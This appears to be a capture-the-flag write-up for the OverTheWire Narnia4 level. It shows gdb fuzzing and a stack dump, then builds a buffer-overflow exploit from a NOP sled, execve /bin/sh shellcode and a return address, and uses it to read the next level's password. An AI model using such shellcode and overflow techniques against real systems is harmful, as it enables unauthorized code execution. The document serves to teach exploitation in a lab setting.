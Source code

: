 This is another buffer overflow vulnerability straight away I had planned to use the same method of passing the binary my shellcode as I did in the Narnia2 challenge, when I re-read through the source code I realised this was the only way the shellcode can be passed to the binary anyways as it is set to null. So I opened up gdb and began debugging the binary sending it increasing in length strings beginning at 260 until I caused a SIGSEV error.

```
(gdb) r $(python -c'print "A"*276')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia4 $(python -c'print "A"*276')
 
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/250x $esp
0xffffd620:     0x00000000      0xffffd6b4      0xffffd6c0      0xf7fd3000
0xffffd630:     0x00000000      0xffffd61c      0xffffd6c0      0x00000000
0xffffd640:     0x0804824c      0xf7fceff4      0x00000000      0x00000000
0xffffd650:     0x00000000      0x2cd80063      0x1bdca473      0x00000000
0xffffd660:     0x00000000      0x00000000      0x00000002      0x08048390
0xffffd670:     0x00000000      0xf7ff0a90      0xf7e453c9      0xf7ffcff4
0xffffd680:     0x00000002      0x08048390      0x00000000      0x080483b1
0xffffd690:     0x08048444      0x00000002      0xffffd6b4      0x08048500
0xffffd6a0:     0x08048570      0xf7feb660      0xffffd6ac      0xf7ffd918
0xffffd6b0:     0x00000002      0xffffd7d5      0xffffd7eb      0x00000000
0xffffd6c0:     0xffffd900      0xffffd910      0xffffd91b      0xffffd93f
0xffffd6d0:     0xffffd952      0xffffd95b      0xffffd968      0xffffde89
0xffffd6e0:     0xffffde94      0xffffde9f      0xffffdeec      0xffffdf03
0xffffd6f0:     0xffffdf12      0xffffdf24      0xffffdf35      0xffffdf3e
0xffffd700:     0xffffdf51      0xffffdf59      0xffffdf69      0xffffdfa0
0xffffd710:     0xffffdfc0      0x00000000      0x00000020      0xf7fdb420
0xffffd720:     0x00000021      0xf7fdb000      0x00000010      0x1f898975
0xffffd730:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd740:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd750:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd760:     0x00000008      0x00000000      0x00000009      0x08048390
0xffffd770:     0x0000000b      0x000036b4      0x0000000c      0x000036b4
0xffffd780:     0x0000000d      0x000036b4      0x0000000e      0x000036b4
0xffffd790:     0x00000017      0x00000000      0x00000019      0xffffd7bb
0xffffd7a0:     0x0000001f      0xffffdfe2      0x0000000f      0xffffd7cb
0xffffd7b0:     0x00000000      0x00000000      0xf1000000      0x206ad5f0
0xffffd7c0:     0xe7ce69ba      0x3bf6e642      0x69a79926      0x00363836
0xffffd7d0:     0x00000000      0x61672f00      0x2f73656d      0x6e72616e
0xffffd7e0:     0x6e2f6169      0x696e7261      0x41003461      0x41414141
0xffffd7f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd800:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd810:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd820:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd830:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd840:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd850:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd860:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd870:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd880:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd890:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8f0:     0x41414141      0x41414141      0x41414141      0x00414141
0xffffd900:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd910:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd920:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd930:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd940:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd950:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd960:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd970:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd980:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd990:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9c0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9e0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd9f0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffda00:     0x00000000      0x00000000
```
So for this buffer overflow vulnerability I have 272 bytes for my payload with the last 4 bytes to make the total payload length of 276 for my RET address. Looking in the above debugging of the stack of the binary file I can see the payload is sitting between the memory address range of “0xffffd7dc-0xffffd8fc”, I chose the location of “0xffffd810” as my RET address as it was close to the start of my buffer that I sent.

```
root@Phlegethon:~/Study/overthewire/narnia# python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
```

So next I just used python to create my buffer string with the first 247 bytes of the buffer will by my NOP sled and then my 25 byte shellcode and then the 4 byte RET address which will overwrite the EIP register and jump into my NOP sled of my buffer.

```
narnia4@melinda:~$ /games/narnia/narnia4 $(python -c'print "\x90"*247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x10\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
```
